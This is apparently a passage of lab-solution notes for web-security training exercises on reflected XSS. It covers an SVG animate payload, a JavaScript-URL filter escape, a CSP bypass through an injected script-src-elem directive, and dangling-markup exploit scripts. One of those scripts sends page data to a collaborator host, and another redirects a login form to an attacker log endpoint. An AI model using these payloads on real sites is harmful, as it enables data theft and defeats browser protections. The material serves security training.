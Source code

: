 Use the Cheat-sheet with payload
- SVG animate tag using values
We got Attribute does not allowed, then we need to modify something to work

```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

# Lab: Reflected XSS in a JavaScript URL with some characters blocked

```
/post?postId=5&%27},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

# Lab: Reflected XSS protected by very strict CSP, with dangling markup attack

First Exploit Server body

```html
<script>
if(window.name) {
	new Image().src='//u614rdli7qike7r0fgngzvg17sdj1dp2.oastify.com?'+encodeURIComponent(window.name);
} else {
     document.location = 'https://0a83002c0380e22581464d5a00ae00d4.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a4600570355e22f811e4cf301320060.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

```html
<script>
location='https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account?email=%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log%22%20method=%22GET%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3E%20Click%20me%20%3C/button%3E';
</script>
```

# Lab: Reflected XSS protected by CSP, with CSP bypass

```
/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```

The injection uses the `script-src-elem` directive in CSP. This directive allows you to target just `script` elements. Using this directive, you can overwrite existing `script-src` rules enabling you to inject `unsafe-inline`, which allows you to use inline scripts.

